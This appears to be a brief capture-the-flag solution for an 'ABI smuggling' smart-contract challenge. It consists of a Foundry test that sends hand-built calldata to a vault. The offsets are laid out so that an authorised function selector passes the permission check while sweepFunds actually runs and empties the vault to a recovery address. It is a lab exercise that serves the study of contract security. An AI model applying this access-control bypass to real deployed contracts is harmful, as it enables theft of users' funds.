

# abi-smuggling
cast 4byte 85fb709d
cast sig "execute(address,bytes)"
console.log(address(vault));

```
    function test_abiSmuggling() public checkSolvedByPlayer {
        console.log(address(vault));
        console.log(recovery);
        console.logBytes(abi.encodeWithSignature("sweepFunds(address, address)", recovery, address(token)));
        bytes memory data = hex"1cff79cd0000000000000000000000001240FA2A84dd9157a0e76B5Cfe98B1d52268B26400000000000000000000000000000000000000000000000000000000000000800000000000000000000000000000000000000000000000000000000000000000d9caed1200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004485fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b00000000000000000000000000000000000000000000000000000000";
        address(vault).call{value:0}(data);
    }
```
